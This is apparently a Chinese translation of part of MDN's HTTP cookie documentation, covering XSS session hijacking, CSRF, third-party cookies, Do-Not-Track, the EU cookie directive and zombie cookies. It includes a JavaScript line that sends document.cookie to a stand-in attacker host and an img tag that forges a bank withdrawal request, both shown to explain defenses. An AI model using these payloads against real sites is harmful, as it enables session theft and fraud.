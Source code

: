 ### 安全

##### 会话劫持和 xss(跨站脚本攻击)

在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行[XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)攻击。

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly`类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

##### 跨站请求伪造（CSRF）

已经给了一个比较好的[CSRF](https://developer.mozilla.org/en-US/docs/Glossary/CSRF)例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：

- 对用户输入进行过滤来阻止[XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)；
- 任何敏感操作都需要确认；
- 用于敏感信息的Cookie只能拥有较短的生命周期；等等

### 追踪和隐私

##### 第三方Cookie

每个Cookie都会有与之关联的域（Domain），如果Cookie的域和页面的域相同，那么我们称这个Cookie为*第一方Cookie*（*first-party cookie*），如果Cookie的域和页面的域不同，则称之为*第三方Cookie*（*third-party cookie*.）。一个页面包含图片或存放在其他域上的资源（如图片广告）时，第一方的Cookie也只会发送给设置它们的服务器。通过第三方组件发送的第三方Cookie主要用于广告和网络追踪。这方面可以看谷歌使用的Cookie类型（[types of cookies used by Google](https://www.google.com/policies/technologies/types/)）。大多数浏览器默认都允许第三方Cookie，但是可以通过附加组件来阻止第三方Cookie（如[EFF](https://www.eff.org/)的[Privacy Badger](https://addons.mozilla.org/en-US/firefox/addon/privacy-badger-firefox/)）。
如果你没有公开你网站上第三方Cookie的使用情况，当它们被发觉时用户对你的信任程度可能受到影响。一个较清晰的声明（比如在隐私策略里面提及）能够减少或消除这些负面影响。在某些国家已经开始对Cookie制订了相应的法规，可以查看维基百科上例子[cookie statement](https://wikimediafoundation.org/wiki/Cookie_statement)。

##### 禁止追踪Do-Not-Track

虽然并没有法律或者技术手段强制要求使用[`DNT`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/DNT)，但是通过[`DNT`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/DNT)可以告诉Web程序不要对用户行为进行追踪或者跨站追踪。查看[`DNT`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/DNT)以获取更多信息。

##### 欧盟Cookie指令

关于Cookie，欧盟已经在[2009/136/EC指令](http://eur-lex.europa.eu/legal-content/EN/TXT/?uri=CELEX:32009L0136)中提了相关要求，该指令已于2011年5月25日生效。虽然指令并不属于法律，但它要求欧盟各成员国通过制定相关的法律来满足该指令所提的要求。当然，各国实际制定法律会有所差别。
该欧盟指令的大意：在征得用户的同意之前，网站不允许通过计算机、手机或其他设备存储、检索任何信息。自从那以后，很多网站都在网站声明中添加了相关说明，告诉用户他们的Cookie将用于何处。
可以通过[维基百科的相关内容](https://en.wikipedia.org/wiki/HTTP_cookie#EU_cookie_directive)获取最新的各国法律和更精确的信息。

##### 僵尸Cookie和删不掉的Cookie

Cookie的一个极端使用例子是僵尸Cookie（或称之为“删不掉的Cookie”），这类Cookie较难以删除，甚至删除之后会自动重建。它们一般是使用[Web storage API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API)、Flash本地共享对象或者其他技术手段来达到的。
